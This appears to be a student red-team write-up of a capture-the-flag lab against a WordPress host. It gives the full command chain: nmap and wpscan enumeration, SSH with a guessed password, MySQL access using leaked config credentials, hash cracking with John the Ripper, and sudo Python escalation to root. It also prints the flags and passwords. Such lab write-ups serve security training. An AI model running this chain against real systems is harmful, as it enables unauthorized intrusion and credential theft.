 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24
```
![Nmap scan results](/Images/Nmap-scan1.jpg)
![](/Images/Nmap-scan2.jpg)

This scan identifies the services below as potential points of entry:

**Target 1 (192.168.1.110)**

  - Port 22/TCP 	    Open 	SSH
  - Port 80/TCP 	    Open 	HTTP
  - Port 111/TCP 	Open 	rcpbind
  - Port 139/TCP 	Open 	netbios-ssn
  - Port 445/TCP 	Open 	netbios-ssn


The following vulnerabilities were identified on each target:

**Target 1**

  - User Enumeration (WordPress site) - easily found with `wpscan`
  - Weak User Password - user Michael using "Michael" as their password 
  - MySQL Password Unencrypted in Config File (wp-config.php)
  - Misconfiguration of User Privileges/Privilege Escalation - Python command can be easily used to gain root access. 


- User Enumeration

![User Enumeration WPscan](/Images/wpscan.jpg)

- Weak User Password

![SSH into wp](/Images/ssh-michael.jpg)

- MySQL Password Plaintext

![Password Hash](/Images/wp-config.jpg)

- Misconfiguration of User Privileges

![User Privileges](/Images/python-command.jpg)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `Flag 1: b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![User Enumeration Users](/Images/wp-enumeration.jpg)

- Targeting user Michael
    - Guessed Michael's password easily as it is their name
    - User password: michael
    
- Capturing Flag 1: SSH in as Michael navigating through directories starting from the root directory.
    - Flag 1 found in var/www/html directory in the `service.html` file using `grep`.
    - Commands:
        - `ssh michael@192.168.1.110 -p22`
        - `pw: michael`
        - `cd /`
        - `cd var/www/html`
        - `ls -la`
        - `grep flag *`

![Flag 1](/Images/flag1.jpg)



  - `Flag 2: fc3fd58dcdad9ab23faca6e9a3e581c`
    - **Exploit Used**
      - Same exploit used to gain Flag 1.
      - Capturing Flag 2: While SSH in as user Michael, Flag 2 was also found.
        - Navigating through directories and files as before, Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd /` 
            - `find / -name flag*
            - `cd var/www/`
            - `ls -la`
            - `cat flag2.txt`

![Flag 2 find](/Images/flag2-find.jpg)

![Flag 2 cat](/Images/flag2.jpg)



- `Flag 3: afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Same exploits used to gain Flag 1 and 2.
      - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database. Intrestingly enough Flag 4 was also found alongside Flag 3 in the wp_posts table.
        - Commands:
            - `mysql --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `SELECT * FROM wp_posts;`

![Flag 3](/Images/flag3.jpg)



- `Flag 4: 715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - Unsalted password hash and the use of privilege escalation with Python.
      - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql --user=root --password=R@v3nSecurity` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `SELECT * FROM wp_users;`

        - ![wp_users table](/Images/wpusers-table.jpg)

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper](/Images/john.jpg)

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110 -p22`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls -la`
                - `cat flag4.txt`

![steven ssh](/Images/steven-ssh.jpg)

![evelating privileges](/Images/python-command.jpg)

![Flag 4](/Images/flag4.jpg)



